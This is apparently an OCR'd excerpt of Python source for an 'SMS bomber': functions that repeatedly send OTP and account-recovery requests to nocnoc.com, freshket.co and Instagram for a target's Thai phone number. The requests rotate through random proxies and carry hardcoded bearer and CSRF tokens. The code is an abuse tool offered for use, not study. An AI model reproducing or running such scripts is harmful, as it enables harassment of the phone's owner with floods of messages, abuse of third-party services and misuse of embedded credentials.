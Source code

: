 
def api4(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.get(
      f"https://nocnoc.com/authentication-service/user/OTP/verify-phone/%2B66{phone[1:]}?lang=th&userType=BUYER&locale=th&orgIdfier=scg&phone=%2B66{phone[1:]}&phoneCountryCode=%2B66&b-uid=1.0.760",
      headers={
          "authorization":
          "Bearer eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..MSrqMX5S5Ui8NbGvEih2uw.NCJuqSPHzIwZ0Jy4Snq25pKUa887meHakzTe3YTCUnVsMwY8cQMnJ-nOr6Lbb5irc2gr8VfD0G2ZYocg22oVH36DdBnfoJirezzLuf9Uc2DiaQHLJ8OJY3UHo8fLUMB7BYe2w0Q5fDdMF1N0u8_aGA.ZNn49ubbJXSlycijnTncbQ"
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api5(phone):
  requests.post(
      "https://www.instagram.com/accounts/account_recovery_send_ajax/",
      data=f"email_or_username={phone}&recaptcha_challenge_field=",
      headers={
          "Content-Type": "application/x-www-form-urlencoded",
          "X-Requested-With": "XMLHttpRequest",
          "User-Agent":
          "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36",
          "x-csrftoken": "EKIzZefCrMss0ypkr2VjEWZ1I7uvJ9BD"
      }).json


def api6(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://api.freshket.co/baseApi/Users/RequestOtp",
      headers={
          "User-Agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "Content-Type": "application/json;charset=UTF-8"
      },
      json={
          "isDev": "false",
          "language": "th",
          "phone": f"+66{phone[1:]}"
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )

